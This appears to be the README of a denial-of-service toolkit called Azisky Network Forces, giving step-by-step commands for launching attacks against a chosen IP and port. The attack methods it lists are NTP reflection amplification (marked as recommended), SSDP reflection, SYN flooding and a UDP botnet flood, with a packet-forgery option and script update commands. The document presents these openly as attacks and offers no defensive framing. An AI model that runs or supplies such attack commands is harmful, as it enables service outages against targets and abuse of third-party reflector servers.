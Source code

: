 Azisky Network Forces(ANF)
----------------------------
This script is running on Linux system. anf/ddos/ is for windows user, but you have to have a web package sender server to run this.
------------------------------------------------------------------------------------------------------------------------------------------


For Linux user(CC)：
----------------
1: You need to upload this to your system.
2: Open terminal, use "./anf" to run anf
3: Follow the guides&examples to launch your attach!


For Windows user(DDOS):
-----------------
You will have to own a package sender server. 
- Update ntp script: "./ddos ntp update -1" 
- Update udp script: "./ddos udp update -1" 
- Update syn script: "./ddos syn update -1" 
- attack : "sudo -i" 
- custom forgery ： "./la us 100 ntp udp ssdp -1"
There are following methods to attach:

- NTP reflection amplification(Recommended) ： "./ntp {ip} {port} ntp.txt 10 -1 {time(seconds)}"
- SSDP reflection : "./ssdp {ip} {port} ssdp.txt 10 -1 {time(seconds)}"
- SYN flood : "./syn {ip} {port} {time(seconds)}"
- UDP botnet ： "./udp {ip} {port} 10 888 -1 {time(seconds)}" (botnet supported)

